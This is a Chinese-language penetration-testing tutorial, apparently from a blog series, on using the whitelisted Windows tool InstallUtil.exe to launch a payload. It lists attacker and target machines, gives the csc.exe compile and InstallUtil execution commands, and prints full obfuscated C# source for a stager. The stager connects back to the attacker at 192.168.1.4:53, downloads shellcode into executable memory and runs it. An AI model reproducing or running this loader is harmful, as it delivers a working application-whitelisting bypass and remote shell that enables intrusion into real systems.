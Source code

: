 ### 11.2 基于白名单Installutil.exe执行payload（二）

**Installutil简介：**

Installer工具是一个命令行实用程序，允许您通过执行指定程序集中的安装程序组件来安装和卸载服务器资源。此工具与System.Configuration.Install命名空间中的类一起使用。

具体参考：Windows Installer部署

    https://docs.microsoft.com/zh-cn/previous-versions/2kt85ked(v=vs.120)
    
        

说明：Installutil.exe所在路径没有被系统添加PATH环境变量中，因此，Installutil命令无法识别。

基于白名单installutil.exe配置payload：

Windows 7 默认位置：

    C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe
    
        

攻击机：192.168.1.4 Debian

靶机：192.168.1.3 Windows 7

**配置攻击机msf：**-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201009225308205.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**靶机执行：**

**靶机编译：**

    C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:System.Ente rpriseServices.dll /r:System.IO.Compression.dll /target:library /out:Mic opoor.exe /keyfile:C:\Users\John\Desktop\installutil.snk /unsafe C:\Users\John\Desktop\installutil.cs
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F2020100922532952.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**payload：**

Micropoor.exe-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201009225344271.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

**靶机执行：**

    C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U Micropoor.exe
    
        

**附录：Micropoor.cs**

注：x64 payload-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201009225410873.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

    using System; using System.Net; using System.Linq; using System.Net.Sockets; using System.Runtime.InteropServices; using System.Threading; using System.Configuration.Install; using System.Windows.Forms;
    
    public class GQLBigHgUniLuVx {
    
    public static void Main()
    
    {
    
    while(true)
    
    {{ MessageBox.Show("doge"); Console.ReadLine();}}
    
    }
    
    } 
    
    [System.ComponentModel.RunInstaller(true)]
    
    public class esxWUYUTWShqW : System.Configuration.Install.Installer
    
    {
    
    public override void Uninstall(System.Collections.IDictionary zWrdFAUHmunnu)
    
    {
    
    jkmhGrfzsKQeCG.LCIUtRN();
    
    }
    
    } 
    
    public class jkmhGrfzsKQeCG
    
    { [DllImport("kernel32")] private static extern UInt32 VirtualAlloc(UInt32 YUtHhF,UInt32 VenifEUR, UInt32 NIHbxnOmrgiBGL, UInt32 KIheHEUxhAfOI);
    
    [DllImport("kernel32")]private static extern IntPtr CreateThread(UInt32 GDmElasSZbx, UInt32 rGECFEZG, UInt32 UyBSrAIp,IntPtr sPEeJlufmodo, UInt32 jmzHRQU, ref UInt32 SnpQPGMvDbMOGmn);
    
    [DllImport("kernel32")] private static extern UInt32 WaitForSingleObject(IntPtr pRIwbzTTS, UInt32 eRLAWWYQnq);
    
    static byte[] ErlgHH(string ZwznjBJY, int KsMEeo) {
    
    IPEndPoint qAmSXHOKCbGlysd = new IPEndPoint(IPAddress.Parse(ZwznjBJY), KsMEeo);
    
    Socket XXxIoIXNCle = new Socket(AddressFamily.InterNetwork, SocketType.Stream, ProtocolType.Tcp);
    
    try { XXxIoIXNCle.Connect(qAmSXHOKCbGlysd); }
    
    catch { return null;}
    
    byte[] UmquAHRnhhpuE = new byte[4];
    
    XXxIoIXNCle.Receive(UmquAHRnhhpuE, 4, 0);
    
    int kFVRSNnpj = BitConverter.ToInt32(UmquAHRnhhpuE, 0);
    
    byte[] qaYyFq = new byte[kFVRSNnpj + 5];
    
    int SRCDELibA = 0;
    
    while (SRCDELibA < kFVRSNnpj)
    
    { SRCDELibA += XXxIoIXNCle.Receive(qaYyFq, SRCDELibA + 5, (kFVRSNnpj ‐ SRCDELibA) < 4096 ? (kFVRSNnpj ‐ SRCDELibA) : 4096, 0);}
    
    byte[] TvvzOgPLqwcFFv = BitConverter.GetBytes((int)XXxIoIXNCle.Handle);
    
    Array.Copy(TvvzOgPLqwcFFv, 0, qaYyFq, 1, 4); qaYyFq[0] = 0xBF;
    
    return qaYyFq;}
    
    static void cmMtjerv(byte[] HEHUjJhkrNS) {
    
    if (HEHUjJhkrNS != null) {
    
    UInt32 WcpKfU = VirtualAlloc(0, (UInt32)HEHUjJhkrNS.Length, 0x1000, 0x40);
    
    Marshal.Copy(HEHUjJhkrNS, 0, (IntPtr)(WcpKfU), HEHUjJhkrNS.Length);
    
    IntPtr UhxtIFnlOQatrk = IntPtr.Zero;
    
    UInt32 wdjYKFDCCf = 0;
    
    IntPtr XVYcQxpp = IntPtr.Zero;
    
    UhxtIFnlOQatrk = CreateThread(0, 0, WcpKfU, XVYcQxpp, 0, ref wdjYKFDCCf);
    
    WaitForSingleObject(UhxtIFnlOQatrk, 0xFFFFFFFF); }} 
    
    public static void LCIUtRN() {
    
    byte[] IBtCWU = null; IBtCWU = ErlgHH("192.168.1.4", 53);
    
    cmMtjerv(IBtCWU);
    
    } }
    
        

* * *